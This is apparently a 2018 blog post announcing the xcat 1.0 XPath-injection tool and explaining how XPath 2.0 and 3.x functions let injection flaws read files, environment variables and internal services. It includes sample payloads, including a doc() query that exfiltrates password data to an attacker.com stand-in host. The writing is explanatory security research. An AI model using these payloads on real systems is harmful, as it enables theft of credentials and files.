 ```yaml
---
title: "XCat 1.0 released or: XPath injection issues are under appreciated"
date: "2018-12-09T19:58:01Z"
draft: false
tags:
   - projects
   - security
---
```


*tl;dr: XPath injection flaws allow you to exfiltrate a surprising amount of potentially sensitive information, the 
lack of awareness around this and the lack of inbuilt security features makes for a potent mix*

I've just released [xcat 1.0](https://github.com/orf/xcat) and it's
[demonstration application](https://github.com/orf/xcat_app) after like 5 years of on-off development. Feels good!

The genesis of xcat was when my boss, Sid, walked up to me out of the blue and asked if I wanted to go on an all 
expenses paid trip to Amsterdam. Who the hell wouldn't say yes to that proposition? *"Great! you've got a month to write
a research paper on XPath injection flaws and we will present it at Blackhat Europe"*. Wait... slow down! What's XPath?!

As it turns out XPath is what you get when you combine the unholy trinity of **XML**, **design-by-committee** and 
**large quantities of drugs**. But before I get into that here's a short demo of me listing directories, reading 
arbitrary files and dumping environment variables through a simple innocuous injection flaw using `xcat`:
 
<center>
<script id="asciicast-216044" src="https://asciinema.org/a/216044.js" async></script>
</center>

*I recommend reading a little bit about what XPath is and a little bit about blind injection vulnerabilities.
I wrote [an introduction here](http://localhost:1313/exploiting-xpath-injection-vulnerabilities-with-xcat/) or there 
is the venerable [OWASP page on the topic](https://www.owasp.org/index.php/XPATH_Injection).*


## XPath 1.0

So, back to large quantities of drugs. The year was 1999. Intel had just released the 800 MHZ Pentium III, Internet
Explorer 5.0 was the hot new browser and XML was all the rage.
 
All was not well in the land of XML though: parsing, filtering and generally using it was a huge pain. So some clever
people invented a nice, clean and concise syntax for querying it documents without any hassle:

`//Employee[UserName/text()='tom']`

Cool! This seems a lot simpler and more flexible than whatever manual parsing/iteration you'd come up with
in `$FAVORITE_LANGUAGE`. And this was XPath, the people rejoiced and the world was good.

Until 2010.

## XPath 2.0

It was decided in 2010 that XPath 1.0 was too simple. What it clearly, *clearly* lacked was a weird type system
(it's both strongly and weakly typed), a [greatly expanded type heirachy](https://upload.wikimedia.org/wikipedia/commons/9/91/XQuery_and_XPath_Data_Model_type_hierarchy.png)
(seriously go look at that), `isinstance` checks, casting and a much larger function library.

Now don't get me wrong: some of these are good changes. But what snuck into this version is the 
[fairly innocuous  `doc` function](https://maxtoroq.github.io/xpath-ref/fn/doc.html). Seems simple - you can reference 
external XML files in your query (almost like a join) and I'm sure there are use cases for this.

This function jumped right out at me when I was struggling 
[through the very, very dense XPath specification](https://www.w3.org/TR/xpath20/), wondering if I should just buy my
own bloody holiday to Amsterdam. What does `doc('https://attacker.com/xxe.xml')` do? Or
`doc('ftp://internalserver/passwords.xml')`? Or, heck, even `doc('gopher://server/something')`?

Turns out it does what you would expect. It makes the request. So now if you find an exploitable XPath injection flaw 
you can make arbitrary network requests for any XML-like document you can find. If your internal services respond with 
HTML that parses as XML that's great! Or how about if all your Java/.NET configuration files are in XML, storing all 
those juicy database passwords? That's even better!

Other than this the interesting thing is you can use this function to exfiltrate large quantities of data really 
quickly. The specification very nicely includes [an `encode-for-uri` method](https://maxtoroq.github.io/xpath-ref/fn/encode-for-uri.html), 
so we could just do:

`doc(string-join('http://attacker.com/?d', encode-for-uri(doc('passwords.xml')/some-node)))`

Another interesting problem is [external entity injection](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing). 
The tl;dr is you can serve up a malicious XML file that is requested by `doc()` that can read arbitrary files on the filesystem!

Awesome! [xcat implements this attack](https://xcat.readthedocs.io/en/latest/OOB-server/) by the way.

The kicker here is:

- You need to explicitly configure your XPath engine to protect against all of this, which inevitably nobody does because 
  nobody expects it. It's just a simple query language, right?
  
- There is no concept of parameterized queries like you have in SQL. If you don't properly escape **every** input you're 
  putting into an XPath query then you're vulnerable to all of this!
  
And this was XPath 2.0. Tom got to go to Amsterdamn and
[present at Black Hat Europe](https://media.blackhat.com/bh-eu-12/Siddharth/bh-eu-12-Siddharth-Xpath-Slides.pdf), and 
the world was good.

Until 2014. At which point the drugs really kicked in.

## XPath 3.0/3.1

It was decided in 2014 that XPath 2.0 was too simple. What it clearly, *clearly* lacked was dynamic function calls,
for loops, introspection, array map/filter/reduce, associative arrays, 
[**dynamic module loading**](https://maxtoroq.github.io/xpath-ref/fn/load-xquery-module.html), JSON parsing, 
inline functions, **exceptions and tracebacks**.

So now our lovely, simple XPath has evolved into:

```
for-each(normalize-unicode(upper-case(json-doc('x.json'))) => tokenize("\s+"),
         function($a) {
            let $a := $a * 10
            load-xquery-module('abc'):some-func(
                        function-lookup($a, 1)(array:map($a, function($b) {
                                let $c := unparsed-text-lines($b)
                                trace($c)
                                if ($c) {
                                    return xml-to-json($b)
                                } else {
                                    error('This is an error')
                                }
                        })) 
            }
)
```

Yay! The future is here! Can you smell the progress?

Aside from trying to turn XPath into some JavaScript abomination they also added two interesting functions:

* [unparsed-text](https://maxtoroq.github.io/xpath-ref/fn/unparsed-text.html)
* [environment-variable](https://maxtoroq.github.io/xpath-ref/fn/environment-variable.html)
* [json-doc](https://maxtoroq.github.io/xpath-ref/fn/json-doc.html)

With these we **can read any arbitrary text files**, and iterate through **all environment variables**.

Also if your internal webservice speaks JSON, well then buddy you're in luck! A simple XPath injection flaw can let the 
attacker read all of those responses using the handy JSON functions introduced in 3.1.

## Summary

I'm sure they are already working on XPath 4.0. I wonder if they will add DirectX support, I think it's really lacking 
in that area.